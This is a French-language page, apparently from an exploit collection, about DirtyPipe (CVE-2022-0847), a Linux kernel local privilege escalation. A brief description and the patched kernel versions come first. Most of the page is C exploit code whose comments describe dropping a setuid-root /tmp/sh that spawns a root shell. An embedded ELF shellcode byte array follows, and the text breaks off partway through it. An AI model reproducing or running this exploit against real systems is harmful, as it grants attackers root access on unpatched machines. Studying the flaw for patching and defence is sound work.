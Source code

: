 ```yaml
---
layout: default
title : Sergio - DirtyPipe (DirtyCow Reloaded) -  Local Privilege Escalation - CVE-2022-0847
---
```


### Description

C'est l'histoire de CVE-2022-0847, une vulnérabilité du noyau Linux depuis la version 5.8 qui permet d'écraser des données dans des fichiers arbitraires en lecture seule. Cela conduit à une élévation des privilèges car les processus non privilégiés peuvent injecter du code dans les processus racine. Cela ressemble à [DirtyCow (CVE-2016-5195)](https://dirtycow.ninja/) maintenant, il ressemble plus à DirtyCow Reloaded et il est facile à exploiter.

La vulnérabilité a été [corrigée](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=9d2231c5d74e13b2a0546fee6737ee4446017903) dans Linux 5.16.11, 5.15.25 et 5.10.102.

### CVE
CVE-2022-0847

### Exploit Code ci-dessous ;

```
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <stdint.h>

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

// small (linux x86_64) ELF file matroshka doll that does;
//   fd = open("/tmp/sh", O_WRONLY | O_CREAT | O_TRUNC);
//   write(fd, elfcode, elfcode_len)
//   chmod("/tmp/sh", 04755)
//   close(fd);
//   exit(0);
//
// the dropped ELF simply does:
//   setuid(0);
//   setgid(0);
//   execve("/bin/sh", ["/bin/sh", NULL], [NULL]);
unsigned char elfcode[] = {
	/*0x7f,*/ 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
	0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x97, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x97, 0x01, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x48, 0x8d, 0x3d, 0x56, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0x41, 0x02,
	0x00, 0x00, 0x48, 0xc7, 0xc0, 0x02, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48,
	0x89, 0xc7, 0x48, 0x8d, 0x35, 0x44, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc2,
	0xba, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc0, 0x01, 0x00, 0x00, 0x00, 0x0f,
```
